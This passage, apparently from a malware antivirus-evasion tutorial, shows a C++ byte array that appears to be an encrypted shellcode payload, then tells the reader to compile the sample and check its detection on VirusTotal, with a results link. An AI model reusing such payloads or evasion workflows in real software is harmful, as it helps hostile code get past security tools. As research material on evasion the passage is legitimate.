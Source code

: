 ```cpp
"\x11\x04\xe2\x55\xe6\x6f\x12\x85\xf9\xae\x16\x8a\xa8\xc5"
"\x7e\x2f\x92\x4d\x5f\x21\xf4\xdc\x40\xa2\x0f\x78\x1b\xf4"
"\xbe\x8f\xa1\x26\xb4\x53\x28\xd6\xc8\x65\x35\x1f\xc1\x88"
"\x1f\x5b\xa0\x74\xdc\x62\x22\x59\xc9\xaf\x08\xc3\x58\x0f"
"\x8a\xcf\x36\x96\xc1\x4e\x9b\x79\xe8\xd7\x56\x3c\x89\x5e"
"\xbc\x23\x59\x44\x2b\x5e\x5f\x5a\xe0\xce\x04\xf1\xd9\x32"
"\x20\x09\xd5\xe4\xe6\xd7\xde\x4e\x83\x50\x31\xf6\xc3\x9b"
"\xfa\xf8\x4f\x78\x19\x29\xa9\x86\xd2\xd2\x94\x91\xdd\xa1"
"\x7c\x00\x4a\x40\x7c\x18\x60\xf6\x85\x8d\x83\x56\x7a\xd5"
"\x26\x3f\xbf\x98\xeb\xc1\xdc\xc1\x75\xb8\x8c\xde\x97\xfc"
"\x46\x22\xd1\x6b\xab\xe7\x5c\x31\x43\x41\x25\xa0\xa5\x74"
"\x7e\xdb\x80\x40\xbc\x1e\x88\x54\xae\xb3\x7f\x12\x5b\x2d"
"\xad\x9d\x1e\x48\xb7\xfa\xda\x35\xfc\x93\xfa\x47\x91\xac"
"\x80\x8b\x2d\x06\x7e\x33\x67\x19\xd6\x0c\x2e\x40\xc0\xc0"
"\x44\xa9\x89\x29\x74\xeb\x5d\xdf\xd2\x68\x24\x92\xfb\x3d"
"\xb4\x3a\x7c\x2b\x1d\xf1\xf8\xb7\xeb\xca\xad\xe0\x8c\xca"
"\x7d\xe9\x1b\x5a\x56\x1f\xce\xa9\x7c\x52\x83\x7f\x28\xbb"
"\x46\x7e\x31\xbf\x39\xc4\xd4\x3e\x2c\x1c\xa5\x7e\xbb\x85\x65\x55";
```

Compile and upload this sample to VirusTotal:      

![av-evasion](/assets/images/89/2023-02-22_01-29.png){:class="img-responsive"}      

[https://www.virustotal.com/gui/file/9e823c75fe4f0a7a58ea3ec86e477c4b4fffc78d2dd1583ece44f6afa244a53f/details](https://www.virustotal.com/gui/file/9e823c75fe4f0a7a58ea3ec86e477c4b4fffc78d2dd1583ece44f6afa244a53f/details)      
